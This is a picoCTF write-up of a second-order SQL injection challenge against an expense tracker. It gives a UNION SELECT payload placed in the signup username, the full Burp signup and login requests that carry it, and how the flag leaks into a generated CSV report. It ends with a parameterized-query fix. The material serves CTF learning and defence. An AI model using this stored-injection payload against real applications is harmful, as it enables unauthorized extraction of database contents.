










# ORDER ORDER

**Category:** Web Exploitation
**Difficulty:** Hard
**Author:** Darkraicg492

---

## Challenge Description

The challenge is an expense tracker web application. The hint points toward SQL Injection involving SQL ordering:

```text
What does order in SQL Injection mean?
```

The goal is to retrieve the flag from the website.

During the challenge, I found that the application stores the username in the session and later uses it while generating expense reports. By registering a crafted username containing a SQL `UNION SELECT` payload, I was able to inject data from the hidden flag table into the generated CSV report.

---

## Initial Request

I opened the challenge instance:

```text
http://crystal-peak.picoctf.net:<PORT>/
```

The application presented an expense tracker with signup and login functionality.

To start the exploitation, I captured a normal signup request using Burp Suite.

```http
POST /signup HTTP/1.1
Host: crystal-peak.picoctf.net:<PORT>
Content-Type: application/x-www-form-urlencoded

username=test&email=test%40gmail.com&password=test&action=
```



---

## Sending the Signup Request to Repeater

I sent the captured signup request to Burp Repeater so I could modify the request body safely and test the payload.



---

## SQL Injection Payload

The vulnerable input was the `username` field during signup.

I replaced the normal username with the following SQL payload:

```sql
b' UNION SELECT name, value, '2026-01-01' FROM aDNyM19uMF9mMTRn --
```

URL-encoded version:

```text
b%27%20UNION%20SELECT%20name%2C%20value%2C%20%272026-01-01%27%20FROM%20aDNyM19uMF9mMTRn%20--
```

Final request body:

```http
username=b%27%20UNION%20SELECT%20name%2C%20value%2C%20%272026-01-01%27%20FROM%20aDNyM19uMF9mMTRn%20--&email=test%40gmail.com&password=test&action=
```



The payload uses `UNION SELECT` to inject rows from the hidden table:

```text
aDNyM19uMF9mMTRn
```

The selected columns were:

```text
name
value
'2026-01-01'
```

This matches the expected report structure:

```text
description
amount
date
```

---

## Successful Signup

After sending the modified signup request, the server returned a redirect to the login page:

```http
HTTP/1.1 302 FOUND
Location: /login
```

The response also contained a success message:

```text
Signup successful! Please login.
```



This confirmed that the malicious username was accepted and stored by the application.

---

## Logging In With the Payload Username

Next, I logged in using the same payload as the username.

```text
Username: b' UNION SELECT name, value, '2026-01-01' FROM aDNyM19uMF9mMTRn --
Password: test
```



I also captured the login request in Burp Suite:

```http
POST /login HTTP/1.1
Host: crystal-peak.picoctf.net:<PORT>
Content-Type: application/x-www-form-urlencoded

username=b%27%20UNION%20SELECT%20name%2C%20value%2C%20%272026-01-01%27%20FROM%20aDNyM19uMF9mMTRn%20--&password=test&action=
```



---

## Successful Login

The server returned a redirect to the home page and set a session cookie:

```http
HTTP/1.1 302 FOUND
Location: /
Set-Cookie: session=...
```



This confirmed that I was authenticated with the malicious username stored in my session.

---

## Generating the Report

After logging in, I went to the Expenses page.

The application had a **Generate Report** button. I clicked it to generate a CSV report for the current user.



The application showed the following success message:

```text
Report generation requested successfully! Check your inbox after 10 seconds!!!
```

This was the key step. The report generation process used the stored username in a database query. Since my username contained a `UNION SELECT` payload, the generated report included data from the hidden flag table.

---

## Downloading the Report

After waiting a few seconds, I opened the Inbox page.

A new report appeared, and its filename contained the injected username payload.



I clicked **Download** to download the generated CSV report.

---

## Retrieving the Flag

The downloaded CSV file contained the injected data.

The CSV structure was:

```csv
description,amount,date
```

The second row contained the flag:

```csv
flag,picoCTF{...REDACTED...},2026-01-01
```



This confirmed that the SQL injection successfully extracted the flag from the hidden table into the generated report.

---

## Why the Exploit Works

The application accepts a username during signup and later reuses that username during report generation.

The malicious username was:

```sql
b' UNION SELECT name, value, '2026-01-01' FROM aDNyM19uMF9mMTRn --
```

When the report generator later built its SQL query, the injected `UNION SELECT` was executed.

The injected query selected values from the hidden table:

```text
aDNyM19uMF9mMTRn
```

The payload returned three columns to match the expected report format:

```text
name  → description
value → amount
date  → static date value
```

As a result, the flag was written into the CSV report and became downloadable from the Inbox.

---

## Attack Flow

```text
Open the challenge website
    ↓
Capture normal signup request with Burp Suite
    ↓
Send signup request to Repeater
    ↓
Inject UNION SELECT payload into username
    ↓
Signup succeeds
    ↓
Login using the same payload username
    ↓
Open Expenses page
    ↓
Generate report
    ↓
Wait for report generation
    ↓
Open Inbox
    ↓
Download generated CSV report
    ↓
Read the flag from the report
```

---

## Tools Used

```text
Browser
Burp Suite
CSV viewer / text editor
Source and behavior analysis
```

---

## Secure Fix

The application should never concatenate user-controlled input directly into SQL queries.

A secure implementation should use parameterized queries or prepared statements.

For example, instead of building a query dynamically with the username, the application should bind the username as a parameter:

```python
cursor.execute(
    "SELECT description, amount, date FROM expenses WHERE username = ? ORDER BY date",
    (username,)
)
```

The application should also validate usernames and reject unexpected characters if usernames are not supposed to contain SQL metacharacters.

Recommended protections:

```text
Use parameterized queries
Avoid string concatenation in SQL
Validate username format
Do not use user-controlled values as raw SQL identifiers or query fragments
Apply least privilege to the database user
```

---

## Key Takeaways

* SQL Injection can occur outside normal login or search forms.
* Stored user input can become dangerous later if reused unsafely.
* A username can become a stored SQL Injection payload.
* Report generation features are interesting targets because they often query and export database data.
* `UNION SELECT` can be used to inject rows into generated output when the column count and types match.
* Burp Repeater is useful for modifying form requests and testing payloads safely.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
